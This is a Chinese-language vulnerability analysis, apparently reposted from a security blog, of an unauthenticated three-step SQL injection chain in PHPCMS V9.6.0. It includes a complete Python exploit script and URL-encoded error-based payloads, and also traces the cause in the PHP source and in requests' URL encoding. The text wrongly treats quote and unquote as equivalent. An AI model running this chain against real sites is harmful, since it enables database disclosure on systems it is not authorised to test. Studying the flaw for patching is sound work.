## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：WAP可签发siteid cookie、共享auth_key、attachments支持userid_flash、down parse_str污染变量；DB显错

- **结论使用边界（1）**：三阶段免注册链清楚，不能误标仅WAP单参数SQLi；PHP单参parse_str历史语义应标环境。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（2）**：脚本Set-Cookie.split('=')\[1\]未按_siteid名字取且可能带属性，att_json未赋值异常未处理。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **结论使用边界（3）**：末文把requests.utils.quote与urllib.parse.unquote说都是一样，编码和解码明显相反。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（4）**：HTTP客户端对无效百分号二次编码分析有价值，应限定requests/urllib3版本而非通用URL必须全编码。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **代码与转录边界（5）**：一处/index.php/index.php、m=attachments与实际attachment拼写差异；修复无明确版本/官方链接。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# PHPCMS V9-6-0wap 模块 SQL 注入漏洞分析

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tNQxq3A_Pzg2xITYbcJ2zw)

环境搭建
----

参考 [PHPCMS_V9.2 任意文件上传 getshell 漏洞分析](https://mp.weixin.qq.com/s?__biz=MzU4NTY4MDEzMw==&mid=2247489053&idx=1&sn=de7468d2e9605a23aab7f21bc1c31ae4&scene=21#wechat_redirect)

漏洞复现
----

此漏洞利用过程可能稍有复杂，我们可分为以下三个步骤：

*   Step1：GET 请求访问`/index.php?m=wap&c=index&siteid=1`
    

*   获取`set-cookie`中的`_siteid`结尾的 cookie 字段的值
    

*   Step2：1. POST 请求访问 `/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26modelid%3D1%26catid%3D1%26f%3DTao`
    

*   上面访问的 url 通过 URL 解码为：`index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=&id=%*27 and updatexml(1,concat(1,(user())),1)#&m=1&modelid=1&catid=1&f=Tao` (报错注入，语句可替换)
    
*   2. 将`Step1`获取`_siteid`结尾的 cookie 字段的值，赋值给 `userid_flash` 变量, 以 post 数据提交
    
*   获取`set-cookie`中的`_json`结尾字段的值
    

*   Step3：访问`/index.php?m=content&c=down&a_k=`step2 获取的_json 结尾字段的值
    

*   eg：`/index.php?m=content&c=down&a_k=0e72z-2m8OJyw8injqvbY0xJtR5l5UtndXiFZmxcvK9kHkxN1COlnfyINF38Opx6UcdqlABV2gc-8RuG90sS6e31lJn2mxnkJPnUaQDCTAs0gEsKMnL5CHxl-o1hYg2TWaL5blo9RC8ya0yLkSc5NgzCqfTSgZCAlndhgum-OFk1XGARihPaYUs`
    

Step1：



Step2：



Step3：



老样子，贴个小脚本！

```
'''
Author: Tao
# 本脚本执行返回user()信息
'''
import requests
import sys
# from urllib import parse
import re

def WAP_SQL(url):
   # step1
   url_one = url + '/index.php?m=wap&c=index&siteid=1'
   step1 = requests.get(url_one)
   userid_flash = step1.headers['Set-Cookie'].split('=')[1]

   # step2
   payload = '%*27 and updatexml(1,concat(1,(user())),1)%23&modelid=1&catid=1&m=1&f=Tao'
   url_two = url + r"/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id={}".format(requests.utils.quote(payload))# 执行SQL语句，此处可修改
   step2 = requests.post(url_two, data={'userid_flash': userid_flash})
   for cookie in step2.cookies:
       if '_att_json' in cookie.name:
           att_json = cookie.value

   # step3
   url_three = url + '/index.php?m=content&c=down&a_k={}'.format(att_json)
   step3 = requests.get(url_three)
   res = re.findall(r"MySQL Error : </b>XPATH syntax error: '(.*?)'",step3.text)
   return res

if __name__ == '__main__':
   url = sys.argv[1]
   result_sql = WAP_SQL(url)
   print(result_sql)
```

执行效果如下：



脚本在对 Stpe2 那里进行了与手工不一样的处理，原因就是按照手工的方法进行编写的脚本会报错，具体是什么问题以及原因看文尾的分析。> 值得一看！！！

漏洞复现
----

为了更好的理解这个漏洞产生的原因，我们采取的方式是从后往前分析。

根据 step3 请求的 URL 地址，可以定位到`phpcms\modules\content\down.php`文件`init`函数：



上面代码通过 GET 获取到了`$a_k`的值, 然后将`$a_k`带入`sys_auth`函数进行解密（`DECODE`）, 至于是如何加密的，我们无需关心，但是我们要知道的是`$a_k`的值是从拿来的，也就是 Step2 构造的语句是哪里进行加密处理的，还有就是加密用的 key。

执行到 17 行，此时`$a_k={"aid":1,"src":"&id=%27 and updatexml(1,concat(1,(user())),1)#&m=1&modelid=1&catid=1&f=Tao","filename":""}`，这里还需要注意`parse_str`这个函数





通过官方给的例子可知，`parse_str`会将传入的值根据`&`进行分割。然后解析注册变量。并且会对内容进行 URL 解码。

为了更好的理解上面这段话，看下图：



由图可知，当执行`parse_str`函数，他会进行以下步骤：

*   1. 根据 & 符解析`$a_k`的值，注册变量
    
*   2. 将解析后变量的值进行 URL 解码
    



继续执行，到 26 进行了 SQL 语句执行，跟进一下



上图可知，执行的 SQL 语句如下：

```
SELECT * FROM `phpcmsv96`.`v9_news_data` WHERE  `id` = '' and updatexml(1,concat(1,(user())),1)#' LIMIT 1
```

我们将语句放到数据库执行一下。



正常返回了，但去掉`#`，报错，如下图：



这就是为什么 Step2 处，构造的 SQL 报错语句后面添加`#`进行注释

接下来分析 Step2, 我们需要弄明白，`$a_k`的值是怎么得到的，以及为什么 POST 请求数据中需要添加`userid_flash`字段和对应的值是怎么来的。

根据 Step2 的请求，我们定位到`/phpcms/modules/attachment/attachments.php`中`swfupload_json`函数。

由于`swfupload_json`方法是`attachments`类中的一个方法，我们看看类中的构造函数。（不知道你有没有发现什么）



类中的构造函数初始化会判断（21-23 行）是否有`$this->userid`，那么这个`$this->userid`是怎么来的呢，17 行对它进行了赋值

```
$this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'],'DECODE'));
```

上面的这一行代码，通过三元运算符判断`$_SESSION['userid']`是否有值，我们第一步利用中，肯定是没有值的，然后执行`(param::get_cookie('_userid')`，然后我们 cookie 也没有`_userid`，所以最终`$this->userid = sys_auth($_POST['userid_flash'],'DECODE'));`



`sys_auth($_POST['userid_flash'],'DECODE'))`就是对我们 step2 中`userid_flash`的值进行解密, 这里跟 Step3 解密是同一个函数，走下来，`$this->userid=1`，就过了 21 行的判断。这也就是为什么 POST 请求数据中添加`userid_flash`字段。

接着分析`swfupload_json`方法



这里通过 GET 请求获取了`src`的值（报错注入语句）。并且经过了`safe_replace`函数的处理。跟进一下此还能输，看看如何处理的。



这个函数的功能就是对一些特殊字符进行了过滤，当经过这个函数，未作处理`$string`值为`&id=%*27 and updatexml(1,concat(1,(user())),1)#&m=1&modelid=1&catid=1&f=Tao`。





走完以后，它将我们传入的`%*27`变成了`%27`。（上上图进行过滤的）这也就是为什么要加`*`号



继续执行，到 244 行由于 cookie 中没有`att_json`，所以跳转至 250 行进行设置 cookie。



可以发现，这里 cookie 加密也是用的`sys_auth`函数 (跟 Step3 解密用的同一个函数)，这里的 key 未指定，我们跟进一下这个函数。



图中可以得知，当`key`为空时，使用`pc_base::load_config('system','auth_key')`。跟 Step3 使用的一致。

接着分析 Step1

前面提到为什么加`userid_flash`参数，`$this->userid = sys_auth($_POST['userid_flash'],'DECODE'));`，为了过是否登录的判断。而且这里传入`userid_flash`的值必须是合法的 cookie，也就是通过`set_cookie`函数设置的 cookie，而又因`set_cookie`函数设置 cookie 会通过`sys_auth`加密。这样的解密才有效。

因此我们需要找到从哪里无添加即可获取 cookie，这里利用的是 wap 模块的接口。在`phpcms/modules/wap/index.php`



上图代码处通过 GET 获取`siteid`的值, 然后为其设置 cookie。

整个漏洞的利用流程如下：



漏洞修复
----



对`$a_k`进行了过滤，且将`$id`进行了类型转换

前面提到问题的分析
---------

不知道你们有没有发现，手工利用跟脚本实现的时候不太一样（见下图）



正常来说，因为手工利用的时候直接访问`/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26modelid%3D1%26catid%3D1%26f%3DTao`, 那么对应脚本应该如下写：

```
url_two = url + "/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26modelid%3D1%26catid%3D1%26f%3DTao"# 执行SQL语句，此处可修改
```

但当我们这么写，执行的时候，会报错，报错如下：



刚开始我还以为是 URL 写错了，后面又测了一遍。发现手工可以，但是带到脚本就不行。由于 Step2 是本脚中最重要的环节，我就很确切的就把问题定位到了这里。最后实在没办法了（想搞懂为什么会这样），被 requests 这个库逼到绝路了 (脚本这个错排了好久的😭)，于是我就去看了一下 requests 库的源代码，看看它对 url 是怎么处理的。最终得到的结果就是 requests 库对请求的 url 做了`urlencode`。当我得到这个结论的时候，大佬告诉我`不encode怎么传递`，我直接好家伙，当时我怎么就没想到这个呢。但后面又仔细想了想，分析这些漏洞，根据前辈的 poc，学习这些手法，那么这些手法大多数不就是不按套路出牌嘛。（我也不知道我自己再说啥，反正玄学。。。）

进行`urlencode`在下处：



执行的流程如下：



回归正传，在这里我们以 Step2 请求的 url 为例：

```
http://www.phpcms96.com/index.php/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26modelid%3D1%26catid%3D1%26f%3DTao
```

正常请求是没问题的，但当使用 requests 库请求时 URL 如下：



```
http://www.phpcms96.com/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%2526id=%25*27%2520and%2520updatexml%25281%252Cconcat%25281%252C%2528user%2528%2529%2529%2529%252C1%2529%2523%2526m%253D1%2526modelid%253D1%2526catid%253D1%2526f%253DTao
```

分析如下图



就是对我们的 url 进行了编码，到这里我们仅仅只是发现了`requests`库对我们的 url 进行了`encode`，但 php 那边为什么会报错我们还没有搞明白，所以我们还得在 php 那边进行调试观察。



```
%26id=%27andupdatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26modelid%3D1%26catid%3D1%26f%3DTao
```

接着走到 Step3 的代码位置，可以发现`parse_str`执行完了，并没有得到`$id`变量。前面说到`parse_str`函数是根据`&`符进行解析注册的。但是由于这里 urlencode 将我们的`&`进行编码了，没有解析注册对应的变量。所以报了上面的参数错误。



上面的分析很清楚的说明了问题，就是对 url 多进行了一次`encode`。那么怎么解决呢？这时候我猜看到这里的人你们肯定想的是将 Step2 的 URL 进行`urlencode`解码，然后再追加上去（是不是？），那么代码如下：

```
payload = "%*27 and updatexml(1,concat(1,(user())),1)%23&modelid=1&catid=1&m=1&f=Tao"
url_two = url + "/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id={}".format(payload)
```

执行如下图，报`Controller does not exist.`



```
http://www.phpcms96.com/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%2526id=%25*27%20and%20updatexml(1,concat(1,(user())),1)%2523&modelid=1&catid=1&m=1&f=Tao
```

由于是 MVC 架构，我们后面的`m=1`跟前面的`m=attachments`冲突了。我们将后面的`m=1`删除试一试。



还有有问题啊，没有`&`符。看到这里，你肯定又会觉得，直接把 id 前面的`%26`改成`&`不就好了嘛？

```
payload = "%*27 and updatexml(1,concat(1,(user())),1)%23&modelid=1&catid=1&m=1&f=Tao"
url_two = url + "/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=&id={}".format(payload)
```





`src=''`那这个漏洞就没法利用，所以说这个利用思路真的很妙。

就是删除了`m=1`, 就没办法过下面的代码了。



好了好了不绕了，还是整理一下来说吧（前面还有一些细节点没说到）。前面说了一堆，大概情况总结下来如下图：



则这一切一切原因就是`id=%*27`这段部分，为什么这么说呢？贴下处理 URL 的代码吧 (重点关注注释`!!!`的代码)

```
// requests源代码 urllib3/util/url.py文件

PERCENT_RE = re.compile(r"%[a-fA-F0-9]{2}")# !!!
.....
   component, percent_encodings = PERCENT_RE.subn(
       lambda match: match.group(0).upper(), component
  )# !!!

   uri_bytes = component.encode("utf-8", "surrogatepass")
   is_percent_encoded = percent_encodings == uri_bytes.count(b"%")# !!!
   encoded_component = bytearray()

   for i in range(0, len(uri_bytes)):
       # Will return a single character bytestring on both Python 2 & 3
       byte = uri_bytes[i : i + 1]
       byte_ord = ord(byte)
       if (is_percent_encoded and byte == b"%") or (# !!!
           byte_ord < 128 and byte.decode() in allowed_chars
      ):
           encoded_component += byte
           continue
       encoded_component.extend(b"%" + (hex(byte_ord)[2:].encode().zfill(2).upper()))

   return encoded_component.decode(encoding)
```

看到这里，你应该知道怎么回事了吧，如果你还不知道，也没关系。我们通过对比观察现象来说明问题：

*   调试将`%`encode 的代码
    



*   调试不会将`%`encode 的代码
    



具体我也不知道怎么说，大概就是我们 url 编码的数据（比如`%27`等多个，完整的）通过正则匹配的，需要跟`uri_bytes.count(b"%")`获取的相等，而这里由于单独的`%`（不相等），因此就会被`encode`。

由于 Step2 的 poc 是需要经过`safe_replace`处理，然后拼接构造的 SQL 语句，这里我们只需要将`%`进行 url 编码即可，于是我们脚本的 poc 如下：

```
payload = "%25*27 and updatexml(1,concat(1,(user())),1)%23&modelid=1&catid=1&m=1&f=Tao"
```

到了这一步，还没有完，因为依旧没法成功利用，看下图，还是参数错误。（原因就是前面提到的 MVC 架构，这里 m 冲突的问题）



调试的时候直接到了 Step3 哪里。`$a_k`还是空（说明未经过`swfupload_json()`）


正常来说执行如下图：



恶意代码是通过 src 参数传入的，而第 3 处对其他变量进行了判断。根据前面分析的截图，已知访问 Step2 链接的时候会进行`decode`, 所以我们需要将`&`进行 url 编码，最终的脚本 poc 如下：

```
payload = "%25*27 and updatexml(1,concat(1,(user())),1)%23%26modelid=1%26catid=1%26m=1%26f=Tao"
```



没问题了！！！

脚本报错的主要原因是`id=%*27`中这个`%`搞得鬼（但是这么写也是一定的，绕过`safe_replace`函数然后拼接 SQL 语句）。还有`&`。由此可知，我们只需要将后面`id`后面的数据编码就可以成功利用。当然啦，最推荐得写法是利用`quote`函数。这个函数的作用就是进行特殊符号的 encode。



看到这里，肯定又会有人要问了，你上面调用的是`requests.utils.quote()`，怎么放的图是`urllib.parse.unquote()`。

> `urllib.parse.unquote`官方文档有说明，`requests`是第三方库，它官网文档我没看到对此函数的说明。但是都是一样的。

使用这个函数后，访问的 URL 如下：

```
'http://www.phpcms96.com/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%25%2A27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%2523%26modelid%3D1%26catid%3D1%26m%3D1%26f%3DTao'
```





文章中有什么不足和错误的地方还望师傅们指正。

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
